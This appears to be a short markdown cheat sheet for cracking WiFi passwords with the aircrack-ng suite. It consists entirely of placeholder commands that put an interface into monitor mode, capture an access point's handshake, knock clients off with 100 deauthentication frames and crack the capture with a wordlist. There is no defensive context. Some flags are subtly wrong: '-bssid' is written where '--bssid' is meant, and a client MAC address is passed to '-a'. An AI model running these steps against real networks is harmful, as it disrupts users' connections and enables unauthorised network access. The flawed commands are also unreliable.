 # Wifi

## aircrack-ng
```console
airmon-ng start [WIRELESS INTERFACE]
```

Note: The interface name might have changed to [WIRELESS INTERFACE]mon. Example: wlan0mon
```console
airodump-ng [WIRELESS INTERFACE]
```

```console
airodump-ng -bssid [AP MAC ADDRESS] -c [AP CHANNEL] --write [FILENAME].cap [WIRELESS INTERFACE]mon
```

```console
aireplay-ng --deauth 100 -a [CLIENT MAC ADDRESS] [WIRELESS INTERFACE]mon
```

```console
aircrack-ng -w [PATH TO WORDLIST].txt [PATH TO HASH FILE].cap
```
